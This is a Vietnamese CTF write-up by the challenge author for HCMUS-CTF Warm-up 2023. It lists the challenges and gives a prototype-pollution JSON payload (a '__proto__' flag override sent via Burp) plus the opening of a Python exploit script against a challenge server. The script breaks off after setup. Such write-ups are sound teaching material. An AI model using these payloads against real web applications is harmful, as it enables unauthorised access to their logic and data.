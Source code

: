 ```yaml
---
title: HCMUS-CTF Warm-up 2023
date: 2023-02-22 11:06 +0700
tags: [ctf, web, forensics, misc]
categories: [CTF Writeups]
author: Dat2Phit
---
```


Đây là một số writeups cho các challenges mà mình ra ở HCMUS-CTF Warm-up 2023.


| Category | Challenge Name | Difficulty |
| -------- | -------------- | ---------- |
| Web      | Polluted Web   | Easy       |
| Web      | Have I Been Pwned   | Medium       |
| Web      | Cute Page 2   | Hard       |
| Forensics      | Know Your Sound   | Easy       |
| Forensics      | Craknarok   | Medium       |
| Forensics      | Black Market   | Hard       |
| Misc      | The Game Of Life   | Easy       |
| Misc      | Come on and jam   | Easy       |
| Misc      | Trace me  | Easy       |

## Polluted Web

### Exploit
Dùng burpsuite, bắt lại POST request và chỉnh lại header: Content-Type: `application/json` và chỉnh lại body như sau:
```json
{
    "name": "Dat2Phit",
    "opinion": "gdsfsd",
    "__proto__": {
        "flag": true
    },
    "flag":false
}
```
## Have I Been Pwned
### Preview

### Exploit script
Sử dụng binary search để tối ưu script
```python
import requests
from Crypto.Util.number import bytes_to_long as b2l, long_to_bytes as l2b
from tqdm import tqdm
from time import perf_counter

session = requests.Session()
url = 'http://103.245.250.17:30007/'

length = 60
l = b2l(b'\x00' * length) # = 0
```